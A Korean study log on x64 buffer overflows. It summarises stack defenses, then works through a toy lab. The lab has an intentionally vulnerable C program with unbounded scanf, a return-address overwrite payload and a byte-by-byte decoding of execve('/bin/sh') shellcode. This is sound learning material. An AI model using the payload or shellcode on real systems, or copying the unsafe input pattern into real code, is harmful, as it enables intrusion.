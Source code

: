 # 📅 YYYY.MM.DD Study Log

## 📌 오늘 배운 개념 요약

- 
- 
- 

---

## ✅ Buffer Overflow 방어 기술 (정리 예시)

###rax, rbx, rsp, rbp 를 배웠다.


##x64 환경에서 존재하는 BOF 방어 기법들
1. **Canary** => sfp,ret 의 정보를 저장할 때, bof공격으로 덮어씌어지는 것을 방지하기 위해 sfp와 buffer 사이에 임의의 값을 추가함. 이게 변조된다? ==> bof로 탐지.
3. **ASLR**(Address Space Layout Randomization) ==> 메모리 랜덤화.
4. **PIE**(Position Independent Execution)
5. **NX**(Non excutable)

![image](https://github.com/user-attachments/assets/2c709cf7-8554-41fd-89d6-5c266a306a07)
![image](https://github.com/user-attachments/assets/d963f3ad-1d72-4610-b77e-2642e1d5ccee)


#include <stdio.h>

void secret(){
        printf("You hacked me!\n");
}
int main(){
        char buf[64];

        printf("Input: ");
        scanf("%s", buf);

        printf("You typed: %s\n", buf);

        return 0;
}


해당 코드의 scanf의 취약점을 활용하려 bof를 시도했다.
조건 

$gcc -g -fno-stack-protector -no-pie -o bof1 bof1.c
==> canary, aslr

파일에 설정된 보호기법 확인?
checksec --file=파일명

payload 작성
buffer[64] + SFP[8] + 덮어쓸 주소[8]

gdb ./bof1
p $secret ==> secret 함수의 주소를 찾음.
python3 -c 'print("A"*64 + "B"*8 + "해당 주소")' | ./bof1
//출력: You hacked me!  

확인해보니 NX가 켜져있다. 다만 NX는 스택에서 실행되는 쉘코드를 막는 것! 나는 그냥 주소만 넣었을 뿐.

---

머신코드?  
\x48\x31\xc0\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\xb0\x3b\x0f\x05  


***\x48\x31\xc0***  
\x48 ==> REX prefix ==> 64비트 연산한다. rax rbx 쓸거다?  
\x31 ==> opcode  
\xc0 ==> ModR/M 바이트. 11000000 (rax 두개 쓸거다)    
       =_xor rax, rax_  
       
***\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00***  
\x48 ==> REX prefix  
\xbb ==> mov r64,imm64  OR  mov r32,imm32      ==> 미리 prifix 해두었기에 movabs rbx, imm64 (만약 없으면 32bit로 쓰임)  
\x2f\x62\x69\x6e\x2f\x73\x68\x00 ==> 리틀엔디언으로 '/bin/sh\0'  
       =_movabs rbx, 0x0068732f6e69622f_  
       
***\x53***  
\x53 ==> push rbx (리틀엔디언 형식으로 저장!!! )  
       = _push rbx_  
       
***\x48\x89\xe7***  
\x48  
\x89 ==> mov r/m64, r64 "오른쪽 레지스터 값을 왼쪽에 복사."  
\xe7 ==> 11100111 mod = 11, reg = 100, rsp = 111  
       = _mov rdi, rsp_ (rdi 레지스터에 /bin/sh 문자열의 주소를 넣음)  
(참고자료)
![image](https://github.com/user-attachments/assets/00e78af8-872f-436e-aa93-639cd4fa5b7d)
![image](https://github.com/user-attachments/assets/1ab48fb3-2ebc-4576-b025-982a90972a25)

EAX	ECX	EDX	EBX	ESP	EBP	ESI	EDI  
000	001	010	011	100	101	110	111  

      
***\x48\x31\xf6***  
\x48 익숙하죠?  
\x31 ==> opcode xor r/m64, r64  
\xf6 ==> 11110110 mod = 11, reg = 000???, rm = 110  
       = _xor rsi, rsi_ (rsi 레지스터를 0으로 초기화 = execve의 두번째 인자 NULL)  

***\x48\x31\xd2***  
\x48  
\x31  
\xd2 ==> mod = 11010010 mod = 11, reg = 010, rm = 010  
      = _xor rdx, rdx_ (rdx 레지스터를 0으로 초기화 = 3번째 인자 NULL)  
      
***\xb0\x3b***  
\xb0 ==> mov al, immm8 (8비트를 al에 넣는다.)  
\x3b ==> 59(system call number 59.== execve)  
      = _mov al, 0x3b_  
시스템콜 넘버는  
/usr/include/x86_64-linux-gnu/asm/unistd_64.h 여기서  cat해서 찾아보면 됨.  

***\x0f\x05***  
      = _syscall (opcode)_  

모두 합치면?  
xor rax, rax  
movabs rbx,  0x0068732f6e69622f  
push rbx  
mov rdi, rsp  
xor rsi, rsi  
xor rdx, rdx  
mov al, 0x3b  
syscall   




---

## 🧠 오늘의 느낀 점 ☑️


---
## ❓ 오늘의 궁금한 점 🔍


---

## 🔖 내일 목표 🎯

- [ ] CTF 문제 1개 풀고 write-up 작성
- [ ] 오늘의 궁금한 점 중 1개는 gdb로 실험
- [ ] 쉘코드 흐름 복습 및 시각화 정리


